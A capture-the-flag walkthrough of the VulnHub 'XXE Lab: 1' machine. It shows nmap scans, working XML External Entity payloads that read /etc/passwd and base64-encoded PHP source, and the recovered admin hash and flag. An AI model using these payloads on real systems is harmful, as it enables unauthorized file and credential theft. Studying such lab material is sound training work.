

# XXE Lab: 1
[Link to vulnhub](https://www.vulnhub.com/entry/xxe-lab-1,254/)

## Reconnaissance
I start with reconnaissance to find the target because it has been set to receive DHCP
```
nmap -sS -O 172.16.226.0/24
```
## Enumeration
I found the target at 172.16.226.186. Now I start enumerate services running on that host.
```
root@BOEING:~# nmap -A -T4 -p- 192.168.239.132
[...]
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.27 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 2 disallowed entries
|_/xxe/* /admin.php
|_http-server-header: Apache/2.4.27 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
5355/tcp open  llmnr?
[...]
```

I've found robots.txt during Nmap scanning. There are 2 entries in there, which are /xxe/* and /admin.php.

When I browse to /admin.php it returns error 404 which means the page does not exist. So I browse to another page, /xxe, and I find a login page.



After trying a few credentials, I inspect the request and found that the login page utilize XML to carry username and password to the server.

The following code snipet are the XML entities after supply username, password, and press login button:
```
POST /xxe/xxe.php HTTP/1.1
Host: 172.16.226.186
[...]

<?xml version="1.0" encoding="UTF-8"?>
<root>
  <name>admin</name>
  <password>admin</password>
</root>
```

I tried some of XML External Entity injection payloads, and found that it's vulnerable to XXE vulnerability. The following HTTP request has been sent to find XXE vulnerability:
```
POST /xxe/xxe.php HTTP/1.1
Host: 172.16.226.186
[...]

<?xml version="1.0" ?>
<!DOCTYPE root [
<!ELEMENT root ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
  <password>xxx</password>
</root>
```

The following response received corresponding to the request:
```
HTTP/1.1 200 OK
[...]

Sorry, this root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
_apt:x:106:65534::/nonexistent:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
r00t:x:1000:1000:Administrator,,,:/home/r00t:/bin/bash
 not available!
```

After trying many paloads, I cannot get a shell, but I'm able to retrive content of xxe.php in the default path "/var/www/html/xxe/xxe.php" by using PHP filter wrapper:
```
POST /xxe/xxe.php HTTP/1.1
Host: 172.16.226.186
Content-Length: 234

<?xml version="1.0" ?>
<!DOCTYPE root [
<!ELEMENT root ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/xxe/xxe.php">
]>
<root>
  <name>&xxe;</name>
  <password>xxx</password>
</root>
```
Here is the response:
```
HTTP/1.1 200 OK
[...]

Sorry, this PD9waHAKbGlieG1sX2Rpc2FibGVfZW50aXR5X2xvYWRlciAoZmFsc2UpOwokeG1sZmlsZSA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdwaHA6Ly9pbnB1dCcpOwokZG9tID0gbmV3IERPTURvY3VtZW50KCk7CiRkb20tPmxvYWRYTUwoJHhtbGZpbGUsIExJQlhNTF9OT0VOVCB8IExJQlhNTF9EVERMT0FEKTsKJGluZm8gPSBzaW1wbGV4bWxfaW1wb3J0X2RvbSgkZG9tKTsKJG5hbWUgPSAkaW5mby0+bmFtZTsKJHBhc3N3b3JkID0gJGluZm8tPnBhc3N3b3JkOwoKZWNobyAiU29ycnksIHRoaXMgJG5hbWUgbm90IGF2YWlsYWJsZSEiOwo/Pgo= not available!
```

Then decode it:
```
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
$name = $info->name;
$password = $info->password;

echo "Sorry, this $name not available!";
?>
```

Nothing seems lead to the flag, I came back to the Nmap result and realized that their was a page name **admin.php** which I can try to access after **/xxe** so it try to read the content of /xxe/admin.php file:
```
POST /xxe/xxe.php HTTP/1.1
Host: 172.16.226.186
Content-Length: 236

<?xml version="1.0" ?>
<!DOCTYPE root [
<!ELEMENT root ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/xxe/admin.php">
]>
<root>
  <name>&xxe;</name>
  <password>xxx</password>
</root>
```
Result:
```
HTTP/1.1 200 OK
[...]

Sorry, this PD9waHAKICAgc2Vzc2lvbl9zdGFydCgpOwo/PgoKCjxodG1sIGxhbmcgPSAiZW4iPgogICAKICAgPGhlYWQ+CiAgICAgIDx0aXRsZT5hZG1pbjwvdGl0bGU+CiAgICAgIDxsaW5rIGhyZWYgPSAiY3NzL2Jvb3RzdHJhcC5taW4uY3NzIiByZWwgPSAic3R5bGVzaGVldCI+CiAgICAgIAogICAgICA8c3R5bGU+CiAgICAgICAgIGJvZHkgewogICAgICAgICAgICBwYWRkaW5nLXRvcDogNDBweDsKICAgICAgICAgICAgcGFkZGluZy1ib3R0b206IDQwcHg7CiAgICAgICAgICAgIGJhY2tncm91bmQtY29sb3I6ICNBREFCQUI7CiAgICAgICAgIH0KICAgICAgICAgCiAgICAgICAgIC5mb3JtLXNpZ25pbiB7CiAgICAgICAgICAgIG1heC13aWR0aDogMzMwcHg7CiAgICAgICAgICAgIHBhZGRpbmc6IDE1cHg7CiAgICAgICAgICAgIG1hcmdpbjogMCBhdXRvOwogICAgICAgICAgICBjb2xvcjogIzAxNzU3MjsKICAgICAgICAgfQogICAgICAgICAKICAgICAgICAgLmZvcm0tc2lnbmluIC5mb3JtLXNpZ25pbi1oZWFkaW5nLAogICAgICAgICAuZm9ybS1zaWduaW4gLmNoZWNrYm94IHsKICAgICAgICAgICAgbWFyZ2luLWJvdHRvbTogMTBweDsKICAgICAgICAgfQogICAgICAgICAKICAgICAgICAgLmZvcm0tc2lnbmluIC5jaGVja2JveCB7CiAgICAgICAgICAgIGZvbnQtd2VpZ2h0OiBub3JtYWw7CiAgICAgICAgIH0KICAgICAgICAgCiAgICAgICAgIC5mb3JtLXNpZ25pbiAuZm9ybS1jb250cm9sIHsKICAgICAgICAgICAgcG9zaXRpb246IHJlbGF0aXZlOwogICAgICAgICAgICBoZWlnaHQ6IGF1dG87CiAgICAgICAgICAgIC13ZWJraXQtYm94LXNpemluZzogYm9yZGVyLWJveDsKICAgICAgICAgICAgLW1vei1ib3gtc2l6aW5nOiBib3JkZXItYm94OwogICAgICAgICAgICBib3gtc2l6aW5nOiBib3JkZXItYm94OwogICAgICAgICAgICBwYWRkaW5nOiAxMHB4OwogICAgICAgICAgICBmb250LXNpemU6IDE2cHg7CiAgICAgICAgIH0KICAgICAgICAgCiAgICAgICAgIC5mb3JtLXNpZ25pbiAuZm9ybS1jb250cm9sOmZvY3VzIHsKICAgICAgICAgICAgei1pbmRleDogMjsKICAgICAgICAgfQogICAgICAgICAKICAgICAgICAgLmZvcm0tc2lnbmluIGlucHV0W3R5cGU9ImVtYWlsIl0gewogICAgICAgICAgICBtYXJnaW4tYm90dG9tOiAtMXB4OwogICAgICAgICAgICBib3JkZXItYm90dG9tLXJpZ2h0LXJhZGl1czogMDsKICAgICAgICAgICAgYm9yZGVyLWJvdHRvbS1sZWZ0LXJhZGl1czogMDsKICAgICAgICAgICAgYm9yZGVyLWNvbG9yOiMwMTc1NzI7CiAgICAgICAgIH0KICAgICAgICAgCiAgICAgICAgIC5mb3JtLXNpZ25pbiBpbnB1dFt0eXBlPSJwYXNzd29yZCJdIHsKICAgICAgICAgICAgbWFyZ2luLWJvdHRvbTogMTBweDsKICAgICAgICAgICAgYm9yZGVyLXRvcC1sZWZ0LXJhZGl1czogMDsKICAgICAgICAgICAgYm9yZGVyLXRvcC1yaWdodC1yYWRpdXM6IDA7CiAgICAgICAgICAgIGJvcmRlci1jb2xvcjojMDE3NTcyOwogICAgICAgICB9CiAgICAgICAgIAogICAgICAgICBoMnsKICAgICAgICAgICAgdGV4dC1hbGlnbjogY2VudGVyOwogICAgICAgICAgICBjb2xvcjogIzAxNzU3MjsKICAgICAgICAgfQogICAgICA8L3N0eWxlPgogICAgICAKICAgPC9oZWFkPgoJCiAgIDxib2R5PgogICAgICAKICAgICAgPGgyPkVudGVyIFVzZXJuYW1lIGFuZCBQYXNzd29yZDwvaDI+IAogICAgICA8ZGl2IGNsYXNzID0gImNvbnRhaW5lciBmb3JtLXNpZ25pbiI+CiAgICAgICAgIAogICAgICAgICA8P3BocAogICAgICAgICAgICAkbXNnID0gJyc7CiAgICAgICAgICAgIGlmIChpc3NldCgkX1BPU1RbJ2xvZ2luJ10pICYmICFlbXB0eSgkX1BPU1RbJ3VzZXJuYW1lJ10pIAogICAgICAgICAgICAgICAmJiAhZW1wdHkoJF9QT1NUWydwYXNzd29yZCddKSkgewoJCQkJCiAgICAgICAgICAgICAgIGlmICgkX1BPU1RbJ3VzZXJuYW1lJ10gPT0gJ2FkbWluaXN0aGViZXN0JyAmJiAKICAgICAgICAgICAgICAgICAgbWQ1KCRfUE9TVFsncGFzc3dvcmQnXSkgPT0gJ2U2ZTA2MTgzODg1NmJmNDdlMWRlNzMwNzE5ZmIyNjA5JykgewogICAgICAgICAgICAgICAgICAkX1NFU1NJT05bJ3ZhbGlkJ10gPSB0cnVlOwogICAgICAgICAgICAgICAgICAkX1NFU1NJT05bJ3RpbWVvdXQnXSA9IHRpbWUoKTsKICAgICAgICAgICAgICAgICAgJF9TRVNTSU9OWyd1c2VybmFtZSddID0gJ2FkbWluaXN0aGViZXN0JzsKICAgICAgICAgICAgICAgICAgCiAgICAgICAgICAgICAgICBlY2hvICJZb3UgaGF2ZSBlbnRlcmVkIHZhbGlkIHVzZSBuYW1lIGFuZCBwYXNzd29yZCA8YnIgLz4iOwoJCSRmbGFnID0gIkhlcmUgaXMgdGhlIDxhIHN0eWxlPSdjb2xvcjpGRjAwMDA7JyBocmVmPScvZmxhZ21lb3V0LnBocCc+RmxhZzwvYT4iOwoJCWVjaG8gJGZsYWc7CiAgICAgICAgICAgICAgIH1lbHNlIHsKICAgICAgICAgICAgICAgICAgJG1zZyA9ICdNYXliZSBMYXRlcic7CiAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgfQogICAgICAgICA/PgogICAgICA8L2Rpdj4gPCEtLSBXMDB0L1cwMHQgLS0+CiAgICAgIAogICAgICA8ZGl2IGNsYXNzID0gImNvbnRhaW5lciI+CiAgICAgIAogICAgICAgICA8Zm9ybSBjbGFzcyA9ICJmb3JtLXNpZ25pbiIgcm9sZSA9ICJmb3JtIiAKICAgICAgICAgICAgYWN0aW9uID0gIjw/cGhwIGVjaG8gaHRtbHNwZWNpYWxjaGFycygkX1NFUlZFUlsnUEhQX1NFTEYnXSk7IAogICAgICAgICAgICA/PiIgbWV0aG9kID0gInBvc3QiPgogICAgICAgICAgICA8aDQgY2xhc3MgPSAiZm9ybS1zaWduaW4taGVhZGluZyI+PD9waHAgZWNobyAkbXNnOyA/PjwvaDQ+CiAgICAgICAgICAgIDxpbnB1dCB0eXBlID0gInRleHQiIGNsYXNzID0gImZvcm0tY29udHJvbCIgCiAgICAgICAgICAgICAgIG5hbWUgPSAidXNlcm5hbWUiIAogICAgICAgICAgICAgICByZXF1aXJlZCBhdXRvZm9jdXM+PC9icj4KICAgICAgICAgICAgPGlucHV0IHR5cGUgPSAicGFzc3dvcmQiIGNsYXNzID0gImZvcm0tY29udHJvbCIKICAgICAgICAgICAgICAgbmFtZSA9ICJwYXNzd29yZCIgcmVxdWlyZWQ+CiAgICAgICAgICAgIDxidXR0b24gY2xhc3MgPSAiYnRuIGJ0bi1sZyBidG4tcHJpbWFyeSBidG4tYmxvY2siIHR5cGUgPSAic3VibWl0IiAKICAgICAgICAgICAgICAgbmFtZSA9ICJsb2dpbiI+TG9naW48L2J1dHRvbj4KICAgICAgICAgPC9mb3JtPgoJCQkKICAgICAgICAgQ2xpY2sgaGVyZSB0byBjbGVhbiA8YSBocmVmID0gImFkbWlubG9nLnBocCIgdGl0ZSA9ICJMb2dvdXQiPlNlc3Npb24uCiAgICAgICAgIAogICAgICA8L2Rpdj4gCiAgICAgIAogICA8L2JvZHk+CjwvaHRtbD4K not available!
```

After decoding it I've found some clue which could lead to the flag:
```
[...]

     <?php
        $msg = '';
        if (isset($_POST['login']) && !empty($_POST['username']) 
           && !empty($_POST['password'])) {
    
           if ($_POST['username'] == 'administhebest' && 
              md5($_POST['password']) == 'e6e061838856bf47e1de730719fb2609') {
              $_SESSION['valid'] = true;
              $_SESSION['timeout'] = time();
              $_SESSION['username'] = 'administhebest';
              
            echo "You have entered valid use name and password <br />";
$flag = "Here is the <a style='color:FF0000;' href='/flagmeout.php'>Flag</a>";
echo $flag;
           }else {
              $msg = 'Maybe Later';
           }
        }
     ?>

[...]
```

The flag seems to be at /flagmeout.php:
```
POST /xxe/xxe.php HTTP/1.1
Host: 172.16.226.186
Content-Length: 240

<?xml version="1.0" ?>
<!DOCTYPE root [
<!ELEMENT root ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/xxe/flagmeout.php">
]>
<root>
  <name>&xxe;</name>
  <password>xxx</password>
</root
```

Finally, get the flag:
```
HTTP/1.1 200 OK
[...]

Sorry, this PD9waHAKJGZsYWcgPSAiPCEtLSB0aGUgZmxhZyBpbiAoSlFaRk1NQ1pQRTRIS1dUTlBCVUZVNkpWTzVRVVFRSjUpIC0tPiI7CmVjaG8gJGZsYWc7Cj8+Cg== not available!

(decoded)
<?php
$flag = "<!-- the flag in (JQZFMMCZPE4HKWTNPBUFU6JVO5QUQQJ5) -->";
echo $flag;
?>
```
